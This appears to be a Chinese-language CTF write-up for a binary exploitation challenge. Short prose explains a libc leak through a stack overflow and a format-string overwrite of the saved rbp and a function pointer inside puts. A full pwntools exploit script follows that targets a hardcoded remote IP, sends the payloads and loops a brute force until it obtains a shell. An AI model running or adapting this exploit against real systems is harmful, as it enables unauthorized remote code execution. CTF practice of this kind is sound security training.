栈上有 libc 地址，利用栈溢出泄露得到 libc 基址。但是格式化字符串漏洞 ban 掉了 x 和 p，所以其他地址泄露不了，为了方便调试可以先 patch 一下，去掉对 p 的过滤

利用格式化字符串，修改栈上指向 rbp 的值的末一位字节来修改返回地址，需要爆破 1/16，同时因为开了 PIE，vuln 地址也不知道，所以还需要爆破 1/16 的概率,才能控制程序流重新回到 vuln

同时利用格式化字符串漏洞，劫持掉 puts 里的一个函数为 one_gadget，第二次返回时输入 ppp 触发 puts 来 getshell

```python
#encoding: utf-8
#!/usr/bin/python

from pwn import *
import sys
#from LibcSearcher import LibcSearcher

context.log_level = 'debug'
context.arch='amd64'

local=0
binary_name='pwn'
libc_name='libc-2.31.so'

libc=ELF("./"+libc_name)
elf=ELF("./"+binary_name)

def exp():
    if local:
        p=process("./"+binary_name)
        #p=process("./"+binary_name,env={"LD_PRELOAD":"./"+libc_name})
        #p = process(["qemu-arm", "-L", "/usr/arm-linux-gnueabihf", "./"+binary_name])
        #p = process(argv=["./qemu-arm", "-L", "/usr/arm-linux-gnueabihf", "-g", "1234", "./"+binary_name])
    else:
        p=remote('1.14.108.193',32685)

    def z(a=''):
        if local:
            gdb.attach(p,a)
            if a=='':
                raw_input
        else:
            pass

    ru=lambda x:p.recvuntil(x)
    sl=lambda x:p.sendline(x)
    sd=lambda x:p.send(x)
    sa=lambda a,b:p.sendafter(a,b)
    sla=lambda a,b:p.sendlineafter(a,b)
    ia=lambda :p.interactive()

    def leak_address():
        if(context.arch=='i386'):
            return u32(p.recv(4))
        else :
            return u64(p.recv(6).ljust(8,b'\x00'))

    # variables

    # gadgets

    og = [0xe6aee,0xe6af1,0xe6af4]

    # helper functions

    op32 = make_packer(32, endian='big', sign='unsigned') # opposite p32
    op64 = make_packer(64, endian='big', sign='unsigned') # opposite p64

    # main

    sa("Login:",'A'*(0x18-1)+':')
    ru(':')
    libc_base = leak_address()-2016704
    __strlen_avx2 = libc_base + 2011304
    one_gadget = libc_base + og[1]
    success("libc_base:"+hex(libc_base))
    success("__strlen_avx2:"+hex(__strlen_avx2))
    
    payload  = '%20768c%22$hn'
    payload += '%{}c%13$hn'.format((one_gadget&0xffff) - 20768)
    payload += '%{}c%14$hn'.format(((one_gadget>>16)&0xffff) - one_gadget&0xffff)
    payload  = payload.ljust(0x28,'\x00')+p64(__strlen_avx2)+p64(__strlen_avx2+2)
    payload  = payload.ljust(0x70,'\x00')+'\xb8'
    
    #z("b *$rebase(0x135E)")
    #pause()
    
    sa("Content:",payload)

    sa("Login:",'yemei')
    sa("Content:",'ppp')

    ia()

#exp()

while True:
    try:
        exp()
    except:
        continue
```
